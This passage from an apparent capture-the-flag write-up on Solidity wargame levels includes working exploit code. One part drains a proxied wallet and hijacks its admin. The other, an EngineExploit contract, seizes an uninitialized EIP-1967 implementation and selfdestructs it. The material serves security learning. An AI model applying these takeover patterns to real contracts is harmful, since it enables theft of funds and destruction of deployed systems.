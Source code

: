 ```
        // Now our balance equals the total contract balance. Drain via `execute`
        bytes memory callData; // empty calldata, just need it as a placeholder
        wallet.execute(newAdmin, 2000000000000000, callData);

        // Finally set the max balance now that the wallet balance is 0.
        // Updating maxBalance in the wallet updates the admin in the proxy
        wallet.setMaxBalance(uint256(newAdmin));
    }
}
```

And that clears the level!

# Motorbike
This exploit relies on the fact that Engine remains uninitialized even after
Motorbike is created. This is because the call to `initalize()` in Motorbikes's
constructor is delegate called. The motorbike storage is used for the
initialization but the engine's storage remains untouched. We can call initialize on
the engine ourselves and set the implementation to our exploit contract.

The first step is to get the address of the engine contract. According to EIP-1967 the
proxy stores the impl address at slot `0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc` [8]:

```
>> let slot = '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc'
>> let impl = await ethereum.request({ method: 'eth_getStorageAt', params: [instance, slot, "latest"]})
```

Then we can pass the impl to the exploit contract

```
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

import "./Engine.sol";

contract EngineExploit {
    function exploit(address engine) external {
        Engine(engine).initialize();
        Engine(engine).upgradeToAndCall(address(this), abi.encodeWithSelector(this.kill.selector));
    }

    function kill() external {
        selfdestruct(address(0));
    }
}
```

The next time the engine tries to call a function it'll go straight to `kill()`.
Bye bye, engine :'(.
